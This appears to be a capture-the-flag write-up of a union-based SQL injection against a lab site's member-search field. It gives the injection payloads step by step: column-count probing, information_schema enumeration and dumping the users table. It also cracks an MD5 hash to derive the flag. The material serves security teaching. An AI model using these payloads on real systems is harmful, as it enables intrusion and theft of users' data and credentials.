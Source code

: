### Title: <span style="color:blue">SQL Injection Vulnerability in Members Input Field</span>

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

**Location:** `page=member`

**Step 0:** 

write any string in the input field; this SQL error will be thrown.
```sql
Unknown column 'test' in 'where clause'

```
**Step 1:** try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

**Result:**

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1
```

**Step 2 :**
we write to the search field `74 or 1=1` or `74 or 1=1--` we can replace 74 by any other random id.
the input have a label:` SEARCH MEMBER BY ID` so the original query may be something similar to :

```sql
SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = "id_number"

```

the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sent to the database for execution. so the resulted query is something like

```sql
 SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = 74 or 1=1
```

In this case, the injected part '74 OR 1=1--' causes the query to return all rows from the users table because '1=1' is always true. If 'id=74' is not found, all the rows will be returned as 'OR 1=1' allows this to happen. The '--' at the end is used to comment out the rest of the original query to avoid syntax errors (it's not necessary to use the hyphens).
**Result:**

```sql
 result
 ID: 74 or 1=1
 First name: one
 Surname : me
```

> [!NOTE]
> the result show that the original select statement, query over two columns and this is a very important information to use in the sql query injection.

**Step 3 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order. Syntax example:

```

```sql

74 or 1=1 UNION SELECT null; -- The used SELECT statements have a different number of columns.
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- The used SELECT statements have a different number of columns.
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: db_default
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: users
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: guestbook
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: list_images
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: vote_dbs
Surname : BASE TABLE

```
Here's a breakdown of what's happening:
* The original query appears to be something like SELECT * FROM table WHERE ID = 74.
* The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
* Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
* The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql 
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : user_id

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : first_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : last_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : town

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : country

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : planet

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : Commentaire

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : countersign
....

```
we tried :
```sql 
74 or 1=1 union select user_id, first_name  from users
74 or 1=1 union select last_name, town from users
74 or 1=1 union select country, planet from users
74 or 1=1 union select Commentaire, countersign from users

```
After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the query 
```sql 
74 or 1=1 union select Commentaire, countersign from users
```
the result shows : 

```sql
ID: 74 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```
The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
the provided hash "5ff9d0165b4f92b14994e5c685cdce28" appears to be a 128-bit hexadecimal representation, which is often indicative of an MD5 hash.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions 

decrypt MD5(5ff9d0165b4f92b14994e5c685cdce28) : FortyTwo
lowercase the dycrepted value: fortytwo
sh256 of fortytwo value: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

the flag is : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5




**Resources:**

information_shema: 

* https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
* https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
* https://portswigger.net/web-security/sql-injection

dCode: 

* https://www.dcode.fr/identification-chiffrement